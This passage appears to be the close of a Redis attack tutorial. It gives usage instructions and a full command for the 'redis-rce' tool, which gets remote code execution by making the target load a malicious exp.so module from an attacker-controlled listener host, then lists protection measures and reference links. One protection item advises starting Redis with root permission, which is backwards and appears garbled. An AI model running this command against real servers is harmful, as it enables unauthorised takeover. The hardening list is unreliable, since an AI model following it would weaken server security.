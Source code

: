 ### redis-rce
Download address:
 - [Download address](https://github.com/Ridter/redis-rce)

How to use:
 - This tool has a `-a` option, which can be used to perform `Redis` authentication, to make up for the defect that the above tool cannot perform password authentication. However, there is a `exp.so` file missing in this tool, and you also need to add an available `exp.so` file and copy it to the same directory as `redis-rce.py`.

```bash
python3 redis-rce.py -r 172.21
.0.2 -L 192.168.249.143 -f exp.so -a 20010728
```

# Security protection policy
There are mainly the following points to protect the `Redis` service:
 - No monitoring on public network addresses
 - Modify the default listening port
 - Turn on `Redis` security authentication and set complex passwords
 - Use the `root` permission to start
 - Set access permissions for `Redis` configuration file

# refer to
 - [redis master-slave copy RCE](https://lonmar.cn/2021/04/10/redis%E4%B8%BB%E4%BB%8E%E5%A4%8D%E5%88%B6RCE/)

 - [Summary of Redis attack methods](https://whoamianony.top/2021/03/13/Web%E5%AE%89%E5%85%A8/Redis%20%E5%B8%B8%E8%A7%81%E6%94%BB%E5%87%BB%E6%96%B9%E6%B3%95%E6%80%BB%E7%BB%93/)
